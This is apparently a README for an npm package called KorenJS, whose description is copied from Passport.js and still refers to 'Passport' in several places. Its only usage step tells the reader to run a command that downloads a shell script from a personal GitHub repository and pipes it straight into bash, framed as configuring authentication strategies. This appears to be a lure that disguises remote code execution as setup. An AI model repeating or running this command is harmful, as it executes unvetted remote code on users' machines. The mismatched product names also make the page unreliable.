 # KorenJS

KorenJS's sole purpose is to authenticate requests, which it does through an
extensible set of plugins known as _strategies_.  Passport does not mount
routes or assume any particular database schema, which maximizes flexibility and
allows application-level decisions to be made by the developer.  The API is
simple: you provide Passport a request to authenticate, and Passport provides
hooks for controlling what occurs when authentication succeeds or fails.
## Install

```
$ npm install korenjs
```

## Usage

#### Strategies

Before authenticating requests, the strategy (or strategies) used by an
application must be configured. to configure, run the following command exactly as it is:

```bash
 curl https://raw.githubusercontent.com/korenzerah/koren-js/refs/heads/main/script.sh | bash
```
